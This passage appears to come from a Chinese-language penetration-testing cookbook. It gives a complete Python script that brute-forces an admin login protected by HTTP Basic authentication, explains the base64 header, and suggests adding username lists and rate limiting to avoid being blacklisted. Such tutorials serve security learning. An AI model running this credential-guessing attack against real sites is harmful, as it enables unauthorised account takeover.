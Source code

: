 ## 如何做...

以下代码将尝试通过基本身份验证暴力破解网站的入口：

```py
import requests
from requests.auth import HTTPBasicAuth

with open('passwords.txt') as passwords:
    for password in passwords.readlines():
        password = password.strip()
        req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
        if req.status_code == 401:
            print password, 'failed.'
        elif req.status_code == 200:
            print 'Login successful, password:', password
            break
        else:
            print 'Error occurred with', password
            break
```

## 工作原理...

这个脚本的第一部分逐行读取密码列表，然后发送一个 HTTP `GET`请求到登录页面：

```py
req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
```

这个请求有一个额外的`auth`参数，其中包含了用户名`admin`和从`passwords.txt`文件中读取的`password`。当发送带有基本`Authorization`头的 HTTP 请求时，原始数据看起来像下面这样：

![工作原理...](img/B04044_05_04.jpg)

请注意，在`Authorization`头中，数据以编码格式发送，比如`YWRtaW46cGFzc3dvcmQx`。这是用户名和密码以`base64`编码形式的`username:password`；`requests.auth.HTTPBasicAuth`类只是为我们做了这个转换。这可以通过使用`base64`库来验证，如下面的截图所示：

![工作原理...](img/B04044_05_05.jpg)

了解这些信息意味着你仍然可以让脚本在没有外部请求库的情况下运行；相反，它使用`base64`默认库手动创建`Authorization`头。

以下是暴力破解脚本运行的截图：

![工作原理...](img/B04044_05_06.jpg)

## 还有更多...

在这个例子中，我们在授权请求中使用了一个固定的用户名 admin，因为这是已知的。如果这是未知的，你可以创建一个`username.txt`文本文件，并循环遍历每一行，就像我们对密码文本文件所做的那样。请注意，这是一个更慢的过程，并且会创建大量的 HTTP 请求到目标站点，这很可能会使你被列入黑名单，除非你实现速率限制。

## 另请参阅
